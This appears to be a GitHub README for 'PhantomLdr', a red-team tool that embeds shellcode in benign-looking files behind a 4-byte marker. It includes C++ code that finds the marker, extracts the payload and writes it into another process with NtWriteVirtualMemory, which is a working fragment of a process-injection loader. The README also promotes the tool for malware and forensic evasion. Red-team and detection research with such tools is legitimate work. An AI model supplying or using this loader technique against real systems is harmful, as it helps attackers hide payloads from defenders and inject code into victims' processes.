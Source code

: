 # PhantomLdr

![Status](https://img.shields.io/badge/status-stable-green?style=flat-square)
![Python](https://img.shields.io/badge/python-3.x-blue?style=flat-square)

**PhantomLdr** is a binary stager tool designed for red team operators and malware analysts. It embeds raw shellcode into benign-looking files using a 4-byte marker, simulating payload delivery and file manipulation techniques observed in advanced persistent threats (APT).

> ⚠️ **Disclaimer:** This tool is for **educational and authorized security research only**. Use it in **isolated environments** or during **authorized penetration testing engagements**. The developer assumes no responsibility for misuse.

---

## 🎯 Use Case

PhantomLdr is ideal for:

- Red Team payload staging simulations
- Malware evasion and forensic evasion research
- Detection rule testing (EDR, AV, YARA)
- Malware reverse engineering training labs

---

## ✨ Features

- Embeds arbitrary shellcode into any non-sensitive file
- Avoids tampering with sensitive/critical extensions (e.g., `.exe`, `.dll`)
- Custom 4-byte ASCII marker for locating payload in post-processing

---


## How to implement on Visual studio

```cpp
std::vector<char> extractShellcode(const char* data, size_t size, const char* marker = "Z3R0") {
	if (!marker || strlen(marker) != 4) {
		return {};
	}

	for (size_t i = 0; i < size - 8; ++i) {
		if (data[i] == marker[0] &&
			data[i + 1] == marker[1] &&
			data[i + 2] == marker[2] &&
			data[i + 3] == marker[3]) {

			uint32_t len = *(uint32_t*)&data[i + 4];

			if (i + 8 + len > size) {
				return {};
			}

			return std::vector<char>(data + i + 8, data + i + 8 + len);
		}
	}

	return {};
}

std::vector<char> buffer = extractShellcode(data, size, marker);
NtWriteVirtualMemory(pi.hProcess, remoteAddr, buffer.data(), buffer.size(), NULL);
```
